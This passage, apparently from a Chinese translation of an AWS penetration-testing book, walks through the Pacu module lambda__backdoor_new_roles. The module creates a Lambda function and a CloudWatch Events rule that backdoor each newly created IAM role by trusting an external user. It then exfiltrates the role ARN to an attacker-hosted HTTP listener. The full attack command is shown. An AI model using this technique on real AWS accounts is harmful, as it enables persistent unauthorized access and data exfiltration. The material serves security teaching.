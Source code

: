 ![](img/8d10fd48-2301-4683-b3ff-4518b5285398.png)

创建一个后门 Lambda 函数和 CloudWatch Events 规则

正如我们在前一个屏幕截图中看到的，我们运行了以下 Pacu 命令：

```
run lambda__backdoor_new_roles --exfil-url http://x.x.x.x:5050/ --arn arn:aws:iam::000000000000:user/PersonalUser
```

该命令假定我们在 IP `x.x.x.x`（已编辑）的端口`5050`上托管了 HTTP 监听器，并且我们的`PersonalUser` AWS 用户驻留在 AWS 帐户 ID`000000000000`中。运行时，Pacu 将为 Lambda 函数生成代码，对其进行压缩，然后将其上传到 Lambda。之后，它将创建一个 CloudWatch Events 规则，该规则会触发任何 IAM `CreateRole` API 调用。现在，每当创建新的 IAM 角色时，我们的 CloudWatch Events 规则将被触发，这将导致我们的 Lambda 函数被调用，然后将使用 IAM `UpdateAssumeRolePolicy` API 将我们的外部用户（`PersonalUser`）添加为可以假定的受信任实体。完成后，它将将新角色的 ARN 外泄到我们在命令中提供的 URL，以便我们随时可以使用它来访问帐户。

等待片刻后，我们最终收到了一个 IAM 角色 ARN 的请求，这意味着已经创建了一个角色，并且我们使用我们的 Lambda 函数自动设置了后门：

![](img/e6df982c-0623-4e60-9838-ec3d44e784a6.png)
